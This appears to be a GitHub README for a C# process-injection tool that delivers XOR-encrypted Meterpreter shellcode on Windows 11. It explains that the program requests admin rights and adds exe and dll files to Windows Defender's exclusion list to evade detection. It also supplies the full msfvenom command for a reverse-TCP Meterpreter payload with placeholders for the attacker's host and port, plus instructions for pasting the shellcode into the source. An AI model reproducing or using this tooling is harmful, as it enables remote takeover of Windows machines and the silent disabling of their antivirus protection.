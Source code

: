 # get-meterpreter-on-windows 11

for information visit https://youtu.be/HrBr6uKGCxs and watch my video

this is a csharp program to inject xor encrypted shellcode into a new process
this is a modified code(the original code is from https://github.com/chr0n1k/AH2021Workshop/blob/master/Labs/Lab4:%20Simple%20process%20injection/program1.cs) that asks for admin rights at program startup and then adds exe and dll files to the exclusion list of windows defender to get a fully functional meterpreter session without have to worry about uploading stages won't work.

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IPADRESS> lport=<PORTNUMBER> -f csharp --encrypt xor --encryptkey ARICAHACKON



replace bytesize and shellcode in line 162:

byte[] xorshellcode = new byte[BYTESIZE] {SHELLCODE};
